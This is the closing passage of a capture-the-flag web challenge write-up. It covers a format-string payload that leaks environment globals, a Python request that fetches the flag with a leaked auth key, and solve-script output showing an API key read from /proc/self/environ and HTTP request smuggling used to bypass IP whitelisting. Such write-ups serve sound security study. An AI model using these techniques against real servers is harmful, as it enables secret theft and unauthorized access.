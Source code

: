 This payload abuses the fact that the server used `load_dotenv` to load the environment variables which will be easy to fetch since they are populated in the `globals`. Initially the idea for this challenge did not have this in the globals, but instead required reading the env variables through `os.environ`. However, due to some weird issues this was changed to have the flag in the globals.

### Step 4: Read the flag

We can now read the flag with the following request once our format string vulnerability is triggered:

```python
res = requests.get("http://dev.rpc-service.ductf/stats?get_log=true", headers = {"Auth-key": authentication_key})
flag = re.search(r'(DUCTF\{.*?\})', res.text).group(0)
if flag:
    print(f"[+] Flag: {flag}")
```

For this to work on the server, we need to first determine what X-Forwarded-For IP is being sent to the server, which is reflected in the output. That can then be used for whitelisting and then the flag can be easily retrieved.

## Script

The solve script will perform all of the exploits if the hosts are in your /etc/hosts file:

```bash
python3 solve.py
[*] Registering new user...
[+] Registration successful
[*] Logging in...
[+] Login successful
[*] Leaking internal API key via /proc/self/environ...
[+] Leaked internal API key: 2e48228116c6ae588ba6155859f0f2cf67e81f01
[*] Sending smuggled request...
[*] Payload length: 316 bytes
[*] Awaiting response...
[+] No response received from the server. Payload likely successfully smuggled for whitelisting: 10.104.0.61
[*] Sending smuggled request...
[*] Payload length: 316 bytes
[*] Awaiting response...
[+] No response received from the server. Payload likely successfully smuggled for whitelisting: 10.104.1.20
[*] Sending smuggled request...
[*] Payload length: 317 bytes
[*] Awaiting response...
[+] No response received from the server. Payload likely successfully smuggled for whitelisting: 10.104.2.105
[*] Fetching flag...
[+] Caused an error successfully
[+] Flag: DUCTF{th3y_s33_m3_smuggl1ng_4nd_ch41n1ng}
```
